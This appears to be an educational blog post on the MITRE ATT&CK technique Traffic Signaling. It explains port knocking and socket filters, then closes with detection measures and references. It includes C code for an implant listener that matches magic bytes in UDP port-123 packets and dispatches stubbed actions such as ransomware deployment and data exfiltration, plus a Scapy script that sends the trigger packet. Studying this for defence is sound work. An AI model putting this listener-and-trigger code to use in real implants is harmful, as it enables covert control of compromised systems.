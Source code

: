 ```yaml
---
title: "What is Traffic Signaling?"
tags: "ATT&CK"
article_header:
  type: cover
  image:
    src: /images/mitreattack.png
cover: /images/trafficsignaling/cover.jpg
---
```


* Tactics: Defense Evasion, Persistence, Command & Control
* Purpose: To avoid detection when sending instructions to implants on compromised systems.

## Situation

An adversary compromises a system in a target environment and is able to execute a malicious implant. Rather than immediately beaconing out to command and control (C2) infrastructure, the adversary wants to minimize suspicious traffic to avoid detection by network monitoring defenses. One way for a backdoor to stay idle until triggered on demand is using Traffic Signaling, which involves sending a specially crafted or a combination of packets to the compromised device. 

## How it works

Packets may be sent from another compromised system, like an [internal proxy](https://attack.mitre.org/techniques/T1090/001/), or from attacker infrastructure if the implanted device is externally facing. The running process monitors inbound traffic for signals. The traffic signals may instruct the malware to do something that network defenses look for, like initiatiating a shell with C2. 

One way to monitor for incoming connections is by inspecting Netstat output periodically, but spawning a child process can be suspicious. This also limits the implant to only fully established connections without the ability to inspect the frame headers or data. If the malware has administrative priviliges, it can monitor all inbound traffic on the system using pcap libraries like `npcap` on Windows or `libpcap` on Linux or create raw sockets. This includes ports in use by other programs, allowing the signals to blend in with standard traffic like SSH, HTTP, or SMB.

### Port Knocking

One method adversaries have used to signal to the listening malware is Port Knocking, which involves sending a predefined sequence of packets to different ports on the compromised system. In the example below, a program uses `libpcap` to monitor incoming packets on the local network interface. If ten SYN packets arrive at increasing fibonacci port numbers from the the same source IP address in the span of 60 seconds, a "reverse shell" is spawned.

{% include image.html url="/images/trafficsignaling/nmap_portknocking.png" description="Two Nmap scans are initiated from another system - the first with a random Nmap scan order (default), and the second with 10 sequential fibonacci port numbers (using the -r flag)" percentage="80" %}
{% include image.html url="/images/trafficsignaling/portknocking.png" description="The implant is triggered when it detects the correct order" percentage="80" %}


### Socket Filters

Another way to send signals is by filtering for crafted packets with unusual characteristics or "magic bytes" embedded in the data. The payload may carry different signals, allowing additional control. In the following scenario, a program uses a raw socket to filter for inbound UDP packets on port 123 (NTP). When a "password" byte chunk is detected, the following ten bytes will signal which action the program should take.

~~~
// UDP port 123 packet received, checking data for signals
void check_byte_pattern(const char* udpData, int length) {
    const unsigned char passwordChunk[] = { 0x3A, 0xF1, 0xD2, 0x84, 0xB7, 0xC9, 0x5E, 0x6F, 0x12, 0xA3 };
    const int passLength = sizeof(passwordChunk);

    const unsigned char signal1[] = { 0x7B, 0x8C, 0x2D, 0x5F, 0xE6, 0x91, 0x4A, 0x0D, 0xF3, 0xC8 };
    const unsigned char signal2[] = { 0x1E, 0xA7, 0x9B, 0x05, 0xD4, 0x8F, 0x36, 0xC2, 0x7D, 0xE9 };
    const unsigned char signal3[] = { 0x52, 0xF8, 0x3C, 0x6B, 0x94, 0x0A, 0xE1, 0xD7, 0x2F, 0x8E };

    // Search every 10 byte chunk in the UDP data
    for (int i = 0; i <= length - passLength; i++) {
        // If the 10 byte chunk matches the passwordChunk
        if (memcmp(udpData + i, passwordChunk, passLength) == 0) {
            // If there are at least 10 more bytes after the target pattern
            if (i + passLength + 10 <= length) {
                printf("  Signal detected: ");
                print_hex(passwordChunk, passLength);

                printf("  Next ten bytes: ");
                print_hex((const unsigned char*)(udpData + i + passLength), 10);

                if (memcmp(udpData + i + passLength, signal1, 10) == 0) {
                    clean_presence();
                }
                else if (memcmp(udpData + i + passLength, signal2, 10) == 0) {
                    deploy_ransomware();
                }
                else if (memcmp(udpData + i + passLength, signal3, 10) == 0) {
                    exfiltrate_data();
                }
            }
            break;
        }
    }
}
~~~
{: .language-c}

The following Python script sends a UDP packet with the byte combo needed to trigger the `exfiltrate_data` method.

~~~
from scapy.all import IP, UDP, Raw, send
import random

target_ip = "192.168.56.1"
target_port = 123

payload = bytes([
    0x3A, 0xF1, 0xD2, 0x84, 0xB7, 0xC9, 0x5E, 0x6F, 0x12, 0xA3,
    0x52, 0xF8, 0x3C, 0x6B, 0x94, 0x0A, 0xE1, 0xD7, 0x2F, 0x8E
])

prefix = bytes([random.randint(0, 255) for _ in range(random.randint(10, 20))])
suffix = bytes([random.randint(0, 255) for _ in range(random.randint(10, 20))])
final_payload = prefix + payload + suffix

packet = IP(dst=target_ip) / UDP(dport=target_port) / Raw(load=final_payload)
send(packet, verbose=1)
~~~
{: .language-python}

{% include image.html url="/images/trafficsignaling/socket_filter.png" description="Socket filter received signal to exfiltrate data" percentage="80" %}

### Detective Measures

Monitor network traffic for abnormal connection combinations that do not follow standard flow patterns. Behavioral analytics solutions and stateful firewalls can perform some of this analysis. Create detections around malformed packets that do not conform to their destination port's application protocols. This may assist in finding covert signals attempting to blend in.

Alert on untrusted programs that create raw sockets (`AF_INET`,`SOCK_RAW`) or use packet filter libraries. On Windows, detect NDIS (Network Driver Interface Specification) driver installations using the `Get-NetAdapterBinding` PowerShell Cmdlet and monitor for `PF_PACKET` sockets on Linux.

## References

- [MITRE ATT&CK - Traffic Signaling](https://attack.mitre.org/techniques/T1205/)
- [MITRE ATT&CK - Port Knocking](https://attack.mitre.org/techniques/T1205/001/)
- [MITRE ATT&CK - Socket Filters](https://attack.mitre.org/techniques/T1205/002/)